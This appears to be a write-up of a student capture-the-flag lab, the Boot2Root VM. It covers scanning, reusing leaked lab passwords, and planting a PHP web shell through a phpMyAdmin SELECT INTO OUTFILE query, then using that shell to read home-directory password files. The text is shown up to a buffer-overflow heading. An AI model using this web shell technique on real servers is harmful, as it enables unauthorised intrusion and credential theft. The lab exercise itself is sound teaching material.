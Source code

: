  ```
 ____              _   ___  _____             _   
 |  _ \            | | |__ \|  __ \           | |  
 | |_) | ___   ___ | |_   ) | |__) |___   ___ | |_ 
 |  _ < / _ \ / _ \| __| / /|  _  // _ \ / _ \| __|
 | |_) | (_) | (_) | |_ / /_| | \ \ (_) | (_) | |_ 
 |____/ \___/ \___/ \__|____|_|  \_\___/ \___/ \__|
 ```
 
After the setup we are presented with 

![BorntoSec](https://github.com/Ziltoid42/Boot2Root_42/blob/master/bonus/images/setup.png)



-----------------------------------------------------------------------------------

## Information gathering

We need to understand what we can gain access to and where it is located.

* First step is to find the ip of the VM by using ifconfig 
ifconfig should display a range of IP for the vm between 1 and 255

* Second step is to use ***nmap*** in order to uncover wich ports are open by executing: ```nmap 192.168.99.1-255```

This gives back the precise IP and the open ports:
```
Nmap scan report for 192.168.99.100
Host is up (0.00048s latency).
Not shown: 994 closed ports
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
143/tcp open  imap
443/tcp open  https
993/tcp open  imaps
```
From this we know that the exact ip ends with .100 and that port
80 should be open and accessible Through a web browser

We are presented to a basic webpage:
![website](https://github.com/Ziltoid42/Boot2Root_42/blob/master/bonus/images/website.png)


* Now that we know the IP, we're going to use DIRB to gather information about the file structure.
[DIRB](https://sourceforge.net/projects/dirb/files/)
is a tool that uses dictionaries of common file systems naming paterns in order uncover their presence.


```
./dirb https://192.168.99.100/ wordlists/common.txt -w
```

We uncover :

- https://192.168.99.100/forum/  with subfolders:
  - js
  - lang
  - modules
  - templates_c
  - themes
  - update
- https://192.168.99.100/phpmyadmin/
- https://192.168.99.100/webmail/

-------------------------------------------------------------------------------------------

Lets start by accessing the forum. There's a link that displays the users and what they posted, lmezard posted "Probleme login ?"  

![forum](https://github.com/Ziltoid42/Boot2Root_42/blob/master/bonus/images/forum1.png)

It links to a log output of what seems to be admin logins 

When looking for the lmezard "Failed password for invalid user", one line seems very out of place: ```Failed password for invalid user !q\]Ej?*5K5cy*AJ```

Could this be lmezard's password? :smirk:

With this password we can then login to the forum with lmezard's credentials and discover that her email address is laurie@borntosec.net

-------------------------------------------------------------------------------------------

Let's try to log to the webmail with this email and the same password:

![webmail](https://github.com/Ziltoid42/Boot2Root_42/blob/master/bonus/images/webmail.png)

Nice...
Let's check the mail DB ACCESS:

-->
Hey Laurie,

You cant connect to the databases now. Use root/Fg-'kKXBj87E:aJ$

Best regards.
-->
***Bouyaaa !!!***


--------------------------------------------------------------------------------------------

Now lets login to phpmyadmin

login: root
password: Fg-'kKXBj87E:aJ$


Following [This tutorial on PHPmyadmin exploitation](http://www.informit.com/articles/article.aspx?p=1407358&seqNum=2)

We're going to inject a php file that allows us to run shell commands within the browser.
By trying the differents subfolders of the forum we finally uncover that phpmydamin has writing rights to templates_c:

```SELECT "<? System($_REQUEST['cmd']); ?>" into outfile "/var/www/forum/templates_c/cmd.php";```

"/var/www/html/" because this is where websites are normally stored on a server.


![phpmyadmin](https://github.com/Ziltoid42/Boot2Root_42/blob/master/bonus/images/webmail.png)

---------------------------------------------------------------------------------------------

* Funny thing is we can now navigate the server through the web browser
```https://192.168.99.100/forum/templates_c/cmd.php?cmd=ls%20../../../../home/```

From there we uncover the presence of an intersting folder called ***LOOKATME*** inside the home folder that contains a file called password

```https://192.168.99.100/forum/templates_c/cmd.php?cmd=cat%20../../../../home/LOOKATME/password```

this gives us the pair: ```lmezard:G!@M6f4Eatau{sF"```

----------------------------------------------------------------------------------------------

Let's try that in the ftp access [ftp!](ftp://192.168.99.100/)

It works !

There's a file called "fun" and README file that says : ```Complete this little challenge and use the result as password for user 'laurie' to login in ssh```

-----------------------------------------------------------------------------------------------

## Puzzles to root access

fun turns out to be an archive, which when uncompressed shows multiples .pcap files (packets captured by a wireshark type sniffer). using ```grep return```  we can get 12 files each containing a character. By ordering the files in ascending order based on the comments values we get: "Iheartpwnage" 
A hint in the fun file also tells us to sha256 the result, which gives: "330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4"  

We can finally access to laurie's account to the server:

```laurie@192.168.99.100```
"330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4"
![ssh](https://github.com/Ziltoid42/Boot2Root_42/blob/master/bonus/images/ssh.png)

------------------------------------------------------------------------------------------------

There we find a README hinting that solving the bomb wil grant us access to thor's shh access

1. Bomb step 1
2. Bomb step 2
3. Bomb step 3
4. Bomb step 4
5. Bomb step 5
6. Bomb step 6

***This finally gets us access to thor's ssh !***

------------------------------------------------------------------------------------------------

Inside there is a file called turtle and a README telling us solving the riddle will grant us zaz's ssh access

The turtle file contains instruction structured like this:

```
Tourne droite de 1 degrees
Avance 1 spaces
Tourne droite de 1 degrees
Avance 50 spaces

Avance 210 spaces
Recule 210 spaces
Tourne droite de 90 degrees
Avance 120 spaces

Tourne droite de 10 degrees
Avance 200 spaces
Tourne droite de 150 degrees
Avance 200 spaces
Recule 100 spaces
Tourne droite de 120 degrees
Avance 50 spaces

Tourne gauche de 90 degrees
Avance 50 spaces
```

[Turtle](https://docs.python.org/2/library/turtle.html) turns out to be a python module used to draw pictures

By using our provided script, we parse and draw what turns to write "SLASH":

![turtle](https://github.com/Ziltoid42/Boot2Root_42/blob/master/bonus/images/turtle.png)

We then md5 SLASH in order to get zaz's password: "646da671ca01bb5d84dbb5fb2238dc8e"

------------------------------------------------------------------------------------------------------

After connecting to zaz by ssh, we find a binary file called ***exploit_me***

** Buffer overflow



